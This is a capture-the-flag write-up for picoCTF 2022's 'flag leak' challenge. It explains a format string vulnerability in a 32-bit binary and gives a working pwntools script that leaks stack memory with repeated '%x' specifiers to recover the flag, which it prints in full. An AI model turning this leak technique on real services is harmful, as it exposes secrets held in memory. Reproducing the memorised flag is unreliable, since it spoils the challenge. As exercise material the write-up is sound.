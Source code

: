 ```yaml
---
slug: /articles/flag-leak
title: flag leak
date: 30/03/2022
category: pwn
thumbnail: thumbnail.png
description: Format string exploitation to leak a variable on the stack.
author: Elf
ctf: picoCTF 2022
---
```


# flag leak

This challenge is a straightforward format string exploitation challenge. There's a 32 bits binary running on a server, and we have access to the binary itself and its source code.

The flag is stored in a variable declared just before our buffer, so its content will be juste under our input on the stack. We'll use that later to retrieve its value.

To be sure to get the flag consistently and avoid the issues with little endianness and stack alignment, as we know the flag is stored just after our input on the stack, what I did is I just removed all the bytes until the repeated `%x` string ends. Then, it's the flag beginning, and I can read the bytes until I find a `}`, meaning this is the end of the flag.

Here is my final script for this:

```py
from pwn import *

s = remote("saturn.picoctf.net", 52458)

s.recv()
s.send(b"%x" * 200) # enough to fill the whole buffer
s.recvuntil(b"- \n")
leak = s.recv()
leak = leak.split(b"%x"[::-1].hex().encode("ascii"))[-1]

for i in range(0, len(leak), 8):
    flag = bytes.fromhex(leak[i:i+8].decode("ascii")).decode("ascii")[::-1]

    print(flag, end = "")

    if flag.endswith("}"):
        break

print()
```

Once executed, it looks like this:

![](leak.png)

And we get the flag: `picoCTF{L34k1ng_Fl4g_0ff_St4ck_d97b0d94}`